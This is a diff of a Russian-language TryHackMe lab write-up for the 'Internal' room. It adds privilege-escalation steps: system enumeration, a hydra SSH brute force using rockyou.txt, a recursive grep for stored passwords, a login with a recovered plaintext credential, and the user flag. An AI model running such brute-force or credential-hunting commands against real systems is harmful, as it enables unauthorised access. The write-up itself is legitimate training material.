

Before and after one commit to 0x2d-pentest/TryHackMe, a Markdown page: Lin Hard - Internal/writeup.md, the part around one of its changes. Rendered like a GitHub page; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

````diff
--- a/Lin Hard - Internal/writeup.md
+++ b/Lin Hard - Internal/writeup.md
@@ -190,6 +190,9 @@ admin@internal.thm
 Перехожу в несуществующий пост и получаю доступ
 ![reverse](screenshots/03.reverse.png)
 
+
+## ⚙️ Привилегии
+
 Из пользователей есть **aubreanna**
 ```
 $ cd home
@@ -200,5 +203,49 @@ drwxr-xr-x 24 root      root      4096 Aug  3  2020 ..
 drwx------  7 aubreanna aubreanna 4096 Aug  3  2020 aubreanna
 ```
 
+Информация о системе
+```
+$ cat /proc/version
+Linux version 4.15.0-112-generic (buildd@lcy01-amd64-027) (gcc version 7.5.0 (Ubuntu 7.5.0-3ubuntu1~18.04)) #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020
 
-## ⚙️ Привилегии
+$ cat /etc/issue
+Ubuntu 18.04.4 LTS \n \l
+```
+
+brute ssh не дал результатов
+```
+┌──(kali㉿0x2d-pentest)-[~/Labs/TryHackMe/Lin Hard - Internal/scans]
+└─$ hydra -l aubreanna -P /media/sf_Exchange/Dictionaries/rockyou.txt -t 40 ssh://internal.thm
+Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway)
+```
+
+Пробую поискать файлы с кредами
+```
+$ grep -Ril "password\|aubreanna" / 2>/dev/null
+/opt/wp-save.txt
+/proc/kallsyms
+```
+
+Захожу под **aubreanna** **bubb13guM!@#123**
+```
+aubreanna@internal:~$ ls -la
+total 56
+drwx------ 7 aubreanna aubreanna 4096 Aug  3  2020 .
+drwxr-xr-x 3 root      root      4096 Aug  3  2020 ..
+-rwx------ 1 aubreanna aubreanna    7 Aug  3  2020 .bash_history
+-rwx------ 1 aubreanna aubreanna  220 Apr  4  2018 .bash_logout
+-rwx------ 1 aubreanna aubreanna 3771 Apr  4  2018 .bashrc
+drwx------ 2 aubreanna aubreanna 4096 Aug  3  2020 .cache
+drwx------ 3 aubreanna aubreanna 4096 Aug  3  2020 .gnupg
+drwx------ 3 aubreanna aubreanna 4096 Aug  3  2020 .local
+-rwx------ 1 root      root       223 Aug  3  2020 .mysql_history
+-rwx------ 1 aubreanna aubreanna  807 Apr  4  2018 .profile
+drwx------ 2 aubreanna aubreanna 4096 Aug  3  2020 .ssh
+-rwx------ 1 aubreanna aubreanna    0 Aug  3  2020 .sudo_as_admin_successful
+-rwx------ 1 aubreanna aubreanna   55 Aug  3  2020 jenkins.txt
+drwx------ 3 aubreanna aubreanna 4096 Aug  3  2020 snap
+-rwx------ 1 aubreanna aubreanna   21 Aug  3  2020 user.txt
+aubreanna@internal:~$ cat user.txt
+THM{int3rna1_fl4g_1}
+```
+
````
Also changed, not shown: other parts of Lin Hard - Internal/writeup.md (+56 -0 lines).
